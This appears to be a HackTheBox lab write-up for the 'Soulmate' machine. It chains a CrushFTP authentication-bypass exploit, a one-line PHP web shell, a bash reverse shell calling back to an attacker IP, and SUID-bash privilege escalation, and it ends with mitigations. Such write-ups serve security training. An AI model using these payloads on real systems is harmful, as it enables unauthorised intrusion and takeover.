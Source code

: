 # Soulmate - HackTheBox Writeup

## Machine Information
- **Name:** Soulmate
- **IP:** 10.10.11.86
- **Difficulty:** Medium
- **OS:** Linux

## Summary
Soulmate is a medium-difficulty Linux machine that involves exploiting a CrushFTP vulnerability to gain initial access, followed by privilege escalation through a misconfigured SUID bash binary.

## Reconnaissance

### Nmap Scan
```bash
nmap -Pn -p- --min-rate 500 -T4 10.10.11.86
```

**Open Ports:**
- 22/tcp (SSH)
- 80/tcp (HTTP)

### Service Enumeration
```bash
nmap -Pn -p22,80 -sC -sV 10.10.11.86
```

## Web Application Analysis

### Initial Web Discovery
```bash
# Check main HTTP service
curl -I http://10.10.11.86
whatweb http://10.10.11.86
```

### Virtual Host Discovery
```bash
# Found soulmate.htb domain
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts

# Subdomain enumeration
gobuster vhost -u http://10.10.11.86 -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -H "Host: FUZZ.soulmate.htb"
```

**Discovered Subdomains:**
- `ftp.soulmate.htb` - CrushFTP Web Interface

### Directory Enumeration
```bash
gobuster dir -u http://soulmate.htb -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

## Vulnerability Assessment

### CrushFTP Analysis
Accessing `http://ftp.soulmate.htb/WebInterface/login.html` revealed a CrushFTP login portal.

**Technology Detection:**
```bash
whatweb http://ftp.soulmate.htb
```

### CVE Research
Found CrushFTP vulnerable to **CVE-2025-31161** - Authentication Bypass vulnerability.

## Exploitation

### CVE-2025-31161 Exploit
```bash
# Located exploit in exploitdb
searchsploit crushftp
cp /usr/share/exploitdb/exploits/multiple/remote/52295.py crushftp_exploit.py

# Execute exploit
python3 crushftp_exploit.py --target ftp.soulmate.htb --port 80 --check --exploit --new-user hacker --password P@ssw0rd123 --verbose
```

**Exploit Result:** Successfully gained admin access to CrushFTP web interface.

### Web Shell Upload
Through the CrushFTP admin interface:

1. **Created simple PHP shell:**
```php
<?php system($_GET['cmd']); ?>
```

2. **Uploaded shell to web directory**

3. **Accessed shell:**
```bash
curl "http://soulmate.htb/simple_shell.php?cmd=id"
```

### Reverse Shell
```bash
# Set up listener
nc -lvnp 4444

# Trigger reverse shell
curl "http://soulmate.htb/simple_shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.12/4444 0>&1'"
```

**Result:** Gained shell as `www-data`

## Post-Exploitation

### System Enumeration
```bash
# Check user information
cat /etc/passwd | grep bash
# Found user: ben

# Check SUID binaries
find / -perm -4000 2>/dev/null
```

**Critical Finding:** `/usr/bin/bash` has SUID permissions!

### Database Analysis
Found SQLite database with admin credentials:
```bash
# Location: /var/www/soulmate.htb/data/soulmate.db
# Found admin password hash and plaintext password in config

# Config file revealed plaintext password
cat /var/www/soulmate.htb/config/config.php
# Password: Crush4dmin990
```

### Privilege Escalation
**SUID Bash Exploitation:**
```bash
# Execute SUID bash with preserved privileges
/usr/bin/bash -p
```

**Result:** Instant root access due to misconfigured SUID bash binary.

## Flag Retrieval

### User Flag
```bash
find /home -name "user.txt" 2>/dev/null
cat /home/ben/user.txt
```

### Root Flag
```bash
find /root -name "root.txt" 2>/dev/null
cat /root/root.txt
```

## Key Vulnerabilities

1. **CVE-2025-31161:** CrushFTP Authentication Bypass
   - Allowed unauthorized admin access
   - Led to web shell upload capability

2. **SUID Bash Misconfiguration:**
   - `/usr/bin/bash` with SUID bit set
   - Instant privilege escalation to root

3. **Weak Access Controls:**
   - Web application allowed unrestricted file uploads
   - Database contained plaintext credentials

## Mitigation Recommendations

1. **Update CrushFTP:** Upgrade to version 11.3.1 or later
2. **Remove SUID from bash:** `chmod u-s /usr/bin/bash`
3. **File Upload Restrictions:** Implement proper file type validation
4. **Credential Security:** Use environment variables for sensitive data
5. **Regular Security Audits:** Monitor SUID binaries and permissions

## Tools Used
- Nmap
- Gobuster
- Searchsploit
- Custom CrushFTP exploit
- Netcat
- Curl

## Timeline
1. **Reconnaissance:** Port scanning and service enumeration
2. **Discovery:** Found CrushFTP on subdomain
3. **Vulnerability Research:** Identified CVE-2025-31161
4. **Initial Exploitation:** Gained CrushFTP admin access
5. **Web Shell:** Uploaded and executed PHP shell
6. **Reverse Shell:** Established persistent connection
7. **Privilege Escalation:** Exploited SUID bash binary
8. **Flag Retrieval:** Obtained both user and root flags

## Lessons Learned
- Always check for SUID binaries during enumeration
- CVE databases are valuable for finding recent vulnerabilities
- Subdomain enumeration can reveal additional attack surfaces
- Configuration files often contain sensitive information
- Multiple vulnerabilities can chain together for full compromise

---
*Writeup by: [Your Username]*
*Date: [Current Date]*
*HackTheBox: Soulmate*
